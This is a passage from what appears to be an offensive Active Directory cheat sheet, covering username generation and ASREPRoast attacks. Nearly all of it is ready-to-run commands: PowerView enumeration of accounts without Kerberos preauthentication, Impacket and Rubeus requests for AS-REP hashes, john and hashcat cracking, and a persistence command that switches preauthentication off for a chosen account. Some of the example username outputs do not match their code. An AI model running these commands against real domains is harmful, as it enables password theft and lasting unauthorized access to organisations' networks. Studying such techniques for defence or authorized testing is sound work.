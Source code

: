 ```python
            print(fname[0] + lname)        # jdoe
            print(lname[0] + fname)        # djoe
            print(fname[0] + '.' + lname)  # j.doe
            print(lname[0] + '.' + fname)  # d.john
            print(fname)                   # john
            print(lname)                   # joe
```

### Okay we have a valid username, how to get the password:
[back to top](#index)


#### ASREPRoast

1. ASREPRoats:  If a user doesn't have the attribute DONT_REQ_PREAUTH you can request a AS_REP message for that user that will contain some data encrypted by a derivation of the password of the user.

Enumerating vulnerables users

```ps
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

Request AS_REP message

```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
````

```ps
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)

#AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.
```

Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

Persistence 

```ps
#Force preauth not required for a user where you have GenericAll permissions (or permissions to write properties):
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
